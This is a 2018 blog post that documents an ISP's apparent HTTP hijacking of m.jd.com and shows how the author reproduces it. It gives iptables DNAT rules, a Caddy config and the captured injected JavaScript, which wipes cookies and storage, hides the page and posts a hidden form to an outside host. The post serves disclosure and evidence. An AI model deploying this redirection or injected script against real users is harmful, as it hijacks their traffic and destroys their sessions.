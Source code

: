 ```yaml
---
title: Simple HTTP Hijacking
date: 2018-06-08T11:01:11
description: "运营商劫持了 HTTP 连接的内容，严重影响了网络的正常使用。"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Preface

As a man heavily relies on network stablity, I connected to Internet via CT Network.

However, after experiencing the DNS response packet fully-filled with alphabet within two days, I experienced a HTTP JavaScript Hijacking again. This time, they hijacked ```m.jd.com:80``` . I reproduced this "feature" using my Arch Linux PC Chrome, iPad Safari, iPad Chrome again and again.

I will provide my packet capture files here.

DNS Capture:  [PCAP File](/asset_files/udp53_filledNONSENSE.pcap)

Hijack Capture: [CHLS File - Charles Proxy](/asset_files/jd_hijack_ipad.chls)

They still don't admit it. And they asked me if they could go to my house and check it themselves. I accepted. However, the process of reproduction is tested under a very clear environment. Now, they set up a whitelist and want to cheat me.

I won't accept any cheat. Now, I started to deploy a hijack by myself now.


# Deployment

## Add NAT to redirect traffic

>`REDIRECT` alters the destination IP address to send to the machine itself. In other words, locally generated packets are mapped to the 127.0.0.1 address. It's for redirecting local packets. If you only want to redirect the traffic between services on the local machine, it will be a good choice.

> `DNAT` is actual [Network Address Translation](http://en.wikipedia.org/wiki/Network_address_translation). If you want packets destinated outside of the local system to have the destination altered, it's the better choice of the two, as `REDIRECT` will not work.


iptables Config

```bash
# sysctl -w net.ipv4.ip_forward=1
# iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
# iptables -t nat -A PREROUTING -p tcp -m tcp -s <SOURCE IP> -d <DESTINATION IP> -j DNAT --to-destination <WEB SERVER IP>:<PORT>
```

## Caddy for listening on port 80

Caddy Config

```
http://m.jd.com:80 {
   timeouts none
   log stdout
   root /tmp/testweb
}
```

/tmp/testweb/index.html (File dumped from pcap file)

```html
<!DOCTYPE html><html><head><title></title></head><body><script type="text/javascript">function qs(n,m,v,u){u=u||D.URL;var t=u.match(eval('/(\\?|#|&)('+n+')=([^&]*)(&|$)/i'));if(t){m=m||t[2];v=t[3]||v}return m&&v?'&'+m+'='+v:''}function fc(){var h=location.host,x='=;expires='+new Date(0).toUTCString(),y=x+';path=',z=y+'/;domain=',l=[x,y,y+'/',z+h,z+h.substr(h.indexOf('.'))],o=D.cookie.match(/[^ =;]+(?=\=)/g);if(o&&S)for(var i=o.length;i--;)for(var j=5;j--;)D.cookie=o[i]+l[j];if(window.localStorage)localStorage.clear();if(window.sessionStorage)sessionStorage.clear();setTimeout(fc,500)}function fip(){var u=('http://m.quanwangfa.com/').replace(/(\?|#)&/g,'$1');D.body.appendChild(D.createElement('iframe')).src="javascript:var D=document;D.write(\"<html><body><form method='post'action='"+u+"'><input name='t'value='"+location.host+"'/><input name='p'value='0'/><input name='g'value='_top'/><input type='submit'id='s'/></form></body></html>\");var s=D.getElementById('s');if (s.click) s.click();D.close()";setTimeout(function(){if(S){D.cookie='home=s';location.reload()}},3000)}var D=document,d=D,S=!D.cookie.match(/home=s/i);D.body.style.visibility='hidden';D.oncontextmenu=function(){return false};fc();fip()</script></body></html>
```

# Done!

Tested. 

Update: 2 weeks after I report to MIIT, still can be reproduced on my HUAWEI device.

# Referrence

https://serverfault.com/questions/179200/difference-beetween-dnat-and-redirect-in-iptables
http://xstarcd.github.io/wiki/Linux/iptables_forward_internetshare.html
https://my.oschina.net/tridays/blog/785483
